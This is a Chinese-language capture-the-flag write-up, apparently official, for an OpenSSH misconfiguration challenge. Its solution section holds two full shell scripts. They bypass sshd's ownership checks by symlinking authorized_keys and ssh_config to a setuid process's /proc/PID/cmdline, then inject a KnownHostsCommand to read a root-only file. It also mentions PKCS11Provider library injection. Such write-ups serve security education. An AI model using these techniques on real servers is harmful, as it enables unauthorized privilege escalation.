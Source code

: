 # [Misc] 小Z的服务器

- 命题人：lrh2000（题面：xmcp）
- Flag 1：350 分
- Flag 2：300 分

## 题目描述

<p>看呐，小 Z 给组里的服务器装好了系统！</p>
<p>看呐，小 Z 在服务器上安装了 OpenSSH 服务！</p>
<p>看呐，小 Z 设置好了公钥登录！</p>
<p>看呐，小 Z 新建了一个管理员账号，在根目录放了一个 Flag！</p>
<p>看呐，小 Z 把管理员账号的家目录设置成了跟自己一样！</p>
<p>看……诶，这样做是不是有什么问题来着？</p>
<p>究竟是什么问题呢？</p>
<p><strong>注意：本题终端将在连接 10 分钟后关闭，如需长时间调试建议下载源码运行。</strong></p>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>Flag 1: <code>authorized_keys</code> <a target="_blank" rel="noopener noreferrer" href="https://github.com/openssh/openssh-portable/blob/2dc328023f60212cd29504fc05d849133ae47355/regress/check-perm.c#L93-L149">生效条件</a><ul>
<li>函数 <code>realpath</code> 干了什么？</li>
</ul>
</li>
<li>Flag 2: <code>ssh_config</code> <a target="_blank" rel="noopener noreferrer" href="https://man.openbsd.org/ssh_config">官方文档</a><ul>
<li>形如 <code>*Command</code> 的配置项可以干什么？</li>
</ul>
</li>
</ul>
</div>

**【终端交互：连接到题目】**

**[【附件：下载题目源码（prob05-src.tar.gz）】](attachment/prob05-src.tar.gz)**

## 预期解法

预期考察点是OpenSSH源码审计、一点脑洞和避坑能力。

本题开启了sshd服务，管理员帐号的家目录在内容上是完全可控的，登录管理员帐号即可获得Flag 1，因此自然的思路是能否直接“帮”管理员配置一个公私钥登录。简单尝试可知，直接的配置不会生效，这是因为在默认配置下sshd会检查`authorized_keys`文件的所有者和可写性是否正常（参见[`sshd_config`官方文档](https://www.freebsd.org/cgi/man.cgi?sshd_config)中的`StrictModes`）。

文档中没有详细介绍检查的规则，但阅读[相应源代码](https://github.com/openssh/openssh-portable/blob/2dc328023f60212cd29504fc05d849133ae47355/regress/check-perm.c#L93-L149)可知检查过程会首先解析符号链接（根据[`realpath`函数文档](https://man7.org/linux/man-pages/man3/realpath.3.html)），随后检查文件所有者是否是被登录用户自己或者root（函数`platform_sys_dir_uid`）。这意味着如果可以找到内容可控的，并且由root持有的文件，就可以直接创建相应的符号链接骗过上述检查流程。

有没有符合条件的文件呢？对于setuid的程序（如`su`），文件`/proc/PID/cmdline`的所有者是root并且内容取决于传入的命令行参数，可以注入公钥充当`authorized_keys`的角色（注意这个文件不需要完全合法，不合法的行会被忽略，同时不会引起错误），因此Flag 1能通过如下方法拿到：
```sh
#! /bin/sh

if [ ! -f ~/.ssh/id_rsa ]; then
        echo '' | ssh-keygen -N ""
fi

AUTH_KEY=$(cat ~/.ssh/id_rsa.pub)

su root -c $'\n'"$AUTH_KEY" &
sleep 0.1

SU_PID=$!
kill -STOP $SU_PID

AUTH_FILE=/proc/$!/cmdline

rm -f ~/.ssh/authorized_keys
ln -s $AUTH_FILE ~/.ssh/authorized_keys

chmod +x ~ ~/.ssh
rm -f ~/.ssh/config
ssh -oStrictHostKeyChecking=no admin2@localhost cat /flag2

kill -CONT $SU_PID
kill -TERM $SU_PID
wait
```

对于Flag 2，相应的帐号可以用同样的办法进行登录，但是用户shell被设置为了执行一条不通的ssh尝试。通过这个ssh尝试，其实可以注入任意命令执行。从[`ssh_config`官方文件](https://www.freebsd.org/cgi/man.cgi?ssh_config)可知配置文件中有较多按字面意思即可命令注入的配置项，如`ProxyCommand`。不过尝试后可以发现`ProxyCommand`是通过用户shell执行的，但是这里用户shell因为被配置为了一次固定的ssh操作而没有执行命令的能力（这里可能会坑到部分选手）。

再仔细阅读下文档会发现，`ProxyCommand`明确说了会调用用户shell来执行命令，而`KnownHostsCommand`则没有明说，那么有没有可能后者不会调用用户shell呢？事实的确如此，可以本地通过`strace`测试进行简单的验证，因此Flag 2可以通过如下方法获取（`ssh_config`也需要绕过所有者检查，同时必须保证语法正确，这可以通过手动调用`execlp`使得`/proc/PID/cmdline`文件完全可控，即随便乱填`argv[0]`）：
```sh
#! /bin/sh

if [ ! -f ~/.ssh/id_rsa ]; then
        echo '' | ssh-keygen -N ""
fi

AUTH_KEY=$(cat ~/.ssh/id_rsa.pub)

su root -c $'\n'"$AUTH_KEY" &
sleep 0.1

SU_PID=$!
kill -STOP $SU_PID

AUTH_FILE=/proc/$SU_PID/cmdline

rm -f ~/.ssh/authorized_keys
ln -s $AUTH_FILE ~/.ssh/authorized_keys

CFG_CONTENT="KnownHostsCommand /bin/chmod +r /flag2\n"

python3 -c "__import__('os').execlp('su', '$CFG_CONTENT')" &
sleep 0.1

PY_PID=$!
kill -STOP $PY_PID

CFG_FILE=/proc/$PY_PID/cmdline

rm -f ~/.ssh/config
ln -s $CFG_FILE ~/.ssh/config

chmod +x ~ ~/.ssh
ssh -F /dev/null -oStrictHostKeyChecking=no admin2@localhost
cat /flag2

kill -CONT $SU_PID
kill -TERM $SU_PID
kill -CONT $PY_PID
kill -TERM $PY_PID
wait
```

此外，Flag 2存在一些非预期解法，如利用`ssh_config`配置中的`PKCS11Provider`注入动态链接库从而任意代码执行，具体可参考优秀选手WP（TODO：补充链接）。
